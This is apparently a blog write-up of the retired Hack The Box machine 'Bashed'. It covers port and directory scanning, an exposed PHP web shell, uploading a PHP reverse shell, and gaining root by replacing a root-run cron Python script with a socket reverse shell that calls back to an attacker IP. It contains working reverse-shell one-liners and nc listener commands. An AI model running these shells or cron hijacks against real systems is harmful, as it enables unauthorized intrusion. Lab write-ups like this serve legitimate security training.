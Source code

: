 ```yaml
---
layout: post
title: "Bashed"
categories: HTB
---
```

<hr>
### Introduction
This is my writeup of the retired machine Bash from Hack the Box.

<hr>
### Nmap scan
```
nmap -sC -sV -oA initial_nmap_scan 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-20 00:40 AEDT
Nmap scan report for 10.10.10.68
Host is up (0.30s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.91 seconds
```

http is open on port on 80 let's have a look.

<hr>

### Web Enumeration

Visiting http://10.10.10.68 brings us to this page<br><br>
![](\Images\htb\bashed\1.png)<br><br>
None of the links on the side pannel go anywhere, Lets check out the phpbash post<br><br>
![](\Images\htb\bashed\2.png)<br><br>
From Arrexel's github “phpbash is a semi-interactive web shell, that looks like the default kali terminal". This github page has nothing to do with the box, feel free to read and see what the tool is capable of, it's pretty cool.

In the post it was stated that phpbash was developed on this website, so it must be here somewhere lets brute force some directories with gobuster!<br>

<hr>

### GoBuster
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/10/20 00:47:53 Starting gobuster
===============================================================
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
```
<br>

Found 7 directories
```
    • /images
    • /uploads
    • /php
    • /css
    • /dev
    • /js
    • /fonts
```

After trying the list one by one, we land on this page http://10.10.10.68/dev (Possible hint in the post, dev - developed hmm..)<br><br>
![](\Images\htb\bashed\3.png)<br><br>
After clicking on phpbash.php we are presented with this beautiful screen.<br><br>
![](\Images\htb\bashed\4.png)<br><br>
This works like a terminal, just can't use tab.

<hr>

### phpbash.php

Uploaded LinEnum.sh to the /tmp directory for some local enumeration<br>
   1. Created a http server with python
        - I should mention here that you need to start the python webserver in the folder with the files you want to upload.<br>
   `python -m SimpleHTTPserver 80`
   3. Used wget from the web terminal to download LinEnum.sh wget<br>
   `http://10.10.14.18/LinEnum.sh`
   4. Made the script executable (for everyone, because +x didn't work) with<br>
   `chmod - chmod 777 LinEnum.sh`
   5. Then ran LinEnum.sh with<br>
   `./LinEnum.sh`<br>

It takes a couple of seconds, but the output comes up in the webshell, I just did a copy and paste into CheeryTree to go through it.

Found 2 users<br>
   ```
   1.  arexxel
   2. scriptmanager
   ```
<br>
Did find this particular line interesting:<br>
```
    User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
<br>
Which means that the user scriptmanager, can run anything without supplying a password. Neat!<br>

<hr>

### Reverse shell

After trying with no luck to get scriptmanager user within the webshell, it was time to try and get a reverse shell. I later found out that this webshell is not persistant, it basically spawns a new shell for every command <br>

So if we try and switch to user scriptmanager in the webshell. It tells us that we are scriptmanager <br>
    `sudo -u scriptmanager whoami`<br><br>
![](\Images\htb\bashed\5.png)<br><br>

But if we try whoami again, we are back to www-data <br><br>
![](\Images\htb\bashed\6.png)<br><br>

Since we are www-data, I'll be uploading a php reverse shell to the /var/www/html/uploads folder. This will allow me to browse to this file, and get a shell. Let's begin<br>

1. Head over to everyones favourite reverse shell website pentest monkey and grab the php reverse shell<br>
`http://pentestmonkey.net/tools/web-shells/php-reverse-shell`<br><br>
 2. Edit the script for your IP address, you can also change the port to your liking aswell. Change the two lines here:Since we are www-data, I'll be uploading a php reverse shell to the /var/www/html/uploads folder. This will allow me to browse to this file, and get a shell. Let's begin<br><br>
 ![](\Images\htb\bashed\7.png)<br><br>
 3. Start a python webserver
       - Remember to start the python webserver in the folder with the files you want to upload.
`python -m SimpleHTTPserver 80`<br>
  4.  From the webshell
  ```
       cd /var/www/html/uploads
       wget http://10.10.14.3/php-reverse-shell.php
  ```
  5. Start a listener to catch the shell
       `nc -lvnp 8888 (port from the script you edited)`
  6. From a browser navigate to
  `http://10.10.10.68/uploads/php-reverse-shell.php`
  7. Take a look at your listener, you should have caught the shell.

First thing I like to try after geting a basic shell is to spawn a tty shell with python.
    `python -c 'import pty;pty.spawn("/bin/bash")'``

<hr>

### Root

You're probably thinking what about user?

After doing an `ls -la` on the / directory, there is a folder that was out of the ordinary<br><br>
![](\Images\htb\bashed\8.png)<br><br>

The scripts folder, owned by scriptmanager. Lets change to this user because thats why we went and got a reverse shell in the first place.
    `sudo -u scriptmanager bash`

We are now the user scriptmanager. Let's have a look at the scripts folder<br><br>
![](\Images\htb\bashed\9.png)<br><br>

Something interesting was the time and date of test.txt was today's date<br><br>
![](\Images\htb\bashed\10.png)<br><br>

Looks like the test.py runs every minute or so, after reading test.py the key thing to notice is that where it is writing to is owned by root, that means the job is being run by root, therefore if we change this file to give us a reverse shell we will be root.

I had a lot of dificulty in editing this file on the box, as vi was not co-operating, what I did was took the python reverse shell from pentest monkey found here http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet and edited it.

Original script
```
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Edited - basically at every “;” make a new line and delete it. Also make sure to change the IP to your machines IP
```
   `import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.3",1234))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])`
```
Saved the file as python_shell on my own machine, Then uploaded it to the scripts directory on the box, once uploaded renamed python_shell to be test.py

Started a listener to catch the shell
  `nc -lvnp 1234`

after a minute or so you should recieve a shell, or you can force it with
  `python test.py`

We now have root
